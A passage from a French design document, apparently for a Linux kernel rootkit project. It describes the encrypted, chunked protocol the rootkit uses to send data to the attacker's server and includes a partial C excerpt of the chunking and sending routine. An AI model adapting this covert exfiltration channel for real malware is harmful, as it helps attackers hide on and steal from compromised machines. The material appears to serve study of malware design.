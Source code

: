 #### Points forts

- **Fiabilité :** Chaque chunk contient des méta-informations pour la vérification de cohérence.
- **Idempotence :** Les chunks sont gérés de sorte à ce que les doublons ne posent pas de souci (copie directe des données dans un tableau en utilisant l'index de chunk).
- **Taille arbitraire :** Le protocole supporte l'envoi de messages faisant jusqu'à 4 To.
- **Sécurité :** Tous les transferts sont chiffrés.
- **Flexibilité :** Gère à la fois les transferts de texte brut et de fichiers binaires.

#### Limitations

- Le protocole ne gère pas les retransmissions : il suppose que les sockets sont fiables ou que les erreurs de transmission sont gérées par le protocole TCP sous-jacent.
- Aucun checksum n’est intégré pour vérifier l'intégrité après chiffrement.
- Le temps d’attente pour recevoir tous les chunks n’est pas limité (peut bloquer indéfiniment).

### 2.3 🛠️ Implémentation
Le protocole personnalisé de transmission chunkée est implémenté dans les fichiers `network.c` (pour le rootkit) et le fichier `AESNetworkHandler.py` (pour l'attaquant). Voici un aperçu des principales fonctions :
Les fonctions principales du protocole chunké sont :

- `send_to_server_raw(const char *data, size_t len)` :
  Cette fonction chiffre les données à envoyer, les découpe en chunks de taille fixe, ajoute un en-tête à chaque chunk (nombre total de chunks, index, taille utile, marqueur de fin), puis les envoie un à un via le socket noyau.  
  Exemple simplifié :

  ```c
  // Encrypt the data before sending
  if (encrypt_buffer(data, len, &encrypted_msg, &encrypted_len) < 0)
        return -EIO;

  // [... Calculate number of chunks and max chunk body size...]

  // Send each chunk separately
  for (i = 0; i < nb_chunks; ++i) {
      // Construction of the header 
      // total_chunks in big-endian 32 bits
      uint32_t tc = (uint32_t)nb_chunks;
      chunk[0] = (uint8_t)((tc >> 24) & 0xFF);
      chunk[1] = (uint8_t)((tc >> 16) & 0xFF);
      chunk[2] = (uint8_t)((tc >> 8) & 0xFF);
      chunk[3] = (uint8_t)((tc >> 0) & 0xFF);

      // chunk_index in big-endian 32 bits
      uint32_t ci = (uint32_t)i;
      chunk[4] = (uint8_t)((ci >> 24) & 0xFF);
      chunk[5] = (uint8_t)((ci >> 16) & 0xFF);
      chunk[6] = (uint8_t)((ci >> 8) & 0xFF);
      chunk[7] = (uint8_t)((ci >> 0) & 0xFF);

      // chunk_len in big-endian 16 bits
      uint16_t cl = (uint16_t)chunk_len;
      chunk[8] = (uint8_t)((cl >> 8) & 0xFF);
      chunk[9] = (uint8_t)((cl >> 0) & 0xFF);

      // Copy the encrypted message into the chunk
      memcpy(chunk + 10, encrypted_msg + i * max_chunk_body, chunk_len);

      // Add the EOT_CODE at the end
      chunk[10 + chunk_len] = EOT_CODE;
      
      // [... Send the chunk via kernel_sendmsg ...]
  }
  ```
